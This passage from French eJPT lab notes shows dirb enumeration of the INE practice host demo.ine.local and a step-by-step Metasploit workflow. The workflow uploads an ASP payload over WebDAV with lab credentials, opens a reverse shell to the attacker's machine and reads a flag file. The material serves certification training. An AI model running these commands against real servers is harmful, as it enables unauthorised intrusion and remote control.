 ### Si http-enum lent ou ne fonctionne pas
```bash
# Alternative à nmap --script http-enum
dirb http://demo.ine.local

# Dirb avec wordlist spécialisée
dirb http://demo.ine.local /usr/share/wordlists/dirb/common.txt

# Recherche spécifique WebDAV
dirb http://demo.ine.local -w

# Avec extensions
dirb http://demo.ine.local -X .asp,.aspx,.php
```

### Résultat dirb typique
```bash
# Sortie attendue :
+ http://demo.ine.local/webdav/ (CODE:401|SIZE:1293)
+ http://demo.ine.local/_vti_bin/ (CODE:200|SIZE:195)
+ http://demo.ine.local/images/ (CODE:403|SIZE:1233)

# CODE:401 = Authentification requise (WebDAV!)
# CODE:403 = Accès interdit
# CODE:200 = Accès libre
```

---

## 🎯 10. Workflow complet eJPT avec Metasploit

### Scénario 1: WebDAV → Metasploit direct
```bash
# 1. Découverte rapide
nmap --script http-enum -sV -p 80 demo.ine.local

# 2. Test credentials (si connus de l'énoncé)
davtest -auth bob:password_123321 -url http://demo.ine.local/webdav

# 3. Exploitation Metasploit
msfconsole -q
use exploit/windows/iis/iis_webdav_upload_asp
set RHOSTS demo.ine.local
set HttpUsername bob
set HttpPassword password_123321
set PATH /webdav/metasploit%RAND%.asp
set LHOST your_kali_ip
exploit

# 4. Post-exploitation
shell
cd /
type flag.txt
```
